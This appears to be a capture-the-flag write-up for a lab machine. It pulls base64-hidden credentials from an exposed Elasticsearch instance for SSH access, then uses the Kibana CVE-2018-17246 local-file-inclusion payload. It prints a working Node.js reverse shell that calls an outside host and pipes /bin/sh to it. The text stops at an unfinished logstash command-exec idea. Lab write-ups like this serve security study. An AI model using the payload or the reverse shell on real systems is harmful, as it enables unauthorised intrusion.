 ![](./logo.png)

# USER

`nmap` shows a `http` server on port 80. This page displays a photo of a needle.

Running `strings` provides us with the base64 string:

Translating the string: 
```
(base64)    bGEgYWd1amEgZW4gZWwgcGFqYXIgZXMgImNsYXZlIg==

(Spanish)   la aguja en el pajar es "clave"

(English)   the needle in the haystack is "key"
```
Port 9200 shows an `elasticsearch` instance

Running it with

```
http://10.10.10.115:9200/*
```

Shows all the tables available

```
http://10.10.10.115:9200/<table_name>/_search
```

Dumping all the data can be achieved using https://github.com/taskrabbit/elasticsearch-dump

Example command:
```
elasticdump --input=http://10.10.10.115:9200/quotes --output=./quotes.dump
```

Searching for the word `clave` gives us the lines:

```
Tengo que guardar la clave para la maquina: dXNlcjogc2VjdXJpdHkg
Esta clave no se puede perder, la guardo aca: cGFzczogc3BhbmlzaC5pcy5rZXk=
```

The `base64` gives:

```
user: security 
pass: spanish.is.key
```

These allow logging on via `ssh`. This lets us grab the `user.txt`!

# ROOT

This command exposes the `kibana` service to our local machine.
```
ssh -L 5601:127.0.0.1:5601 security@10.10.10.115
```

This allows us to use our web browser to view the `kibana` console

Going to try this exploit `CVE-2018-17246 - Kibana LFI < 6.4.3 & 5.6.13`

Payload:
```
/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../../../../<SHELL_LOCATION>
```

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(6868, "10.10.14.55", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Look at `logstash`?


/etc/logstash/conf.d


```
input {
    exec {
        command => "touch /tmp/TEST_123.txt"
        interval => 5 
    }   
}
```